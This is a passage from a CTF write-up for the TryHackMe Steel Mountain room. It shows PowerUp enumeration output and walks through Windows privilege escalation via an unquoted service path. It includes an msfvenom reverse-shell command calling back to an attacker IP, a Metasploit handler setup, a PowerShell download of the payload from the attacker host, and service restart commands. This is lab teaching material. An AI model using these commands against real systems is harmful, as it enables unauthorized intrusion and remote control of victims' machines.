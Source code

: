   ```
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
[*] Checking service permissions...
[*] Checking %PATH% for potentially hijackable DLL locations...
[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...
[*] Checking for modifidable registry autoruns and configs...
[*] Checking for modifiable schtask files/configs...
[*] Checking for unattended install files...
[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
[*] Checking for plaintext passwords in McAfee SiteList.xml files....
[*] Checking for cached Group Policy Preferences .xml files....
  ```

  Seeing these result we can look at the services for unquoted service paths.
  unquoted service paths are where we can replace the service path if it was not put in quotes.
  To do this we would also have to restart the service which we can also see on services with
  `CanRestart     : True` on them. We see the Service `AdvancedSystemCareService9` can be restarted and can modify the service path.
  In that case lets generate reverse_tcp shell with `msfvenom`
  `msfvenom -p windows/shell/reverse_tcp LHOST=10.8.30.155 LPORT=4556 -e x86/shikata_ga_nai  -f exe > Advanced.exe`

  Then setup an metasploit handler with `use exploit/multi/handler` set your LHOST and LPORT then run the handler in the background with `exploit -j`.

  Back on the original metasploit shell upload the Advanced.exe file to `C:\Program Files (x86)\IObit` so that it can be the first ran. you can do that with powershell using
  `powershell Invoke-WebRequest -Uri http://10.8.30.155:8000/Advanced.exe -Outfile Advanced.exe`

  After that we restart the service with `sc stop AdvancedSystemCareService9` then `sc start AdvancedSystemCareService9`
5. Sample

## Review

For links
[1]:https://tryhackme.com/room/steelmountain
[2]:.\resources\steel_source80.png
[3]:.\resources\steel_upload8080.png
[4]:https://www.exploit-db.com/exploits/34668
[5]:https://github.com/PowerShellMafia/PowerSploit
